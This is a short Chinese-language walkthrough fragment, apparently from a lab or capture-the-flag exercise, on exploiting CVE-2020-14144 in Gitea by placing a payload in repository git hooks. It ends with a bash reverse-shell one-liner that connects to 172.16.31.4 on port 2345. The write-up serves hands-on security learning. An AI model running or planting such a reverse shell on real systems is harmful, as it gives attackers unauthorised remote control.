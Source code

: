 ![image-20240917144042478](./imgs/image-20240917144042478.png)

使用利用脚本发现抱错

![image-20240917144735172](./imgs/image-20240917144735172.png)

阅读 49571.py 脚本开头给出的PoC演示文章：[Exploiting CVE-2020-14144 - GiTea Authenticated Remote Code Execution using git hooks · Podalirius](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)

![image-20240917144827681](./imgs/image-20240917144827681.png)

可以发现利用的原理就是在 Settings -> Git Hooks 中写入shell反弹语句

```bach
#!/bin/bash
bash -i >& /dev/tcp/172.16.31.4/2345 0>&1 &
```
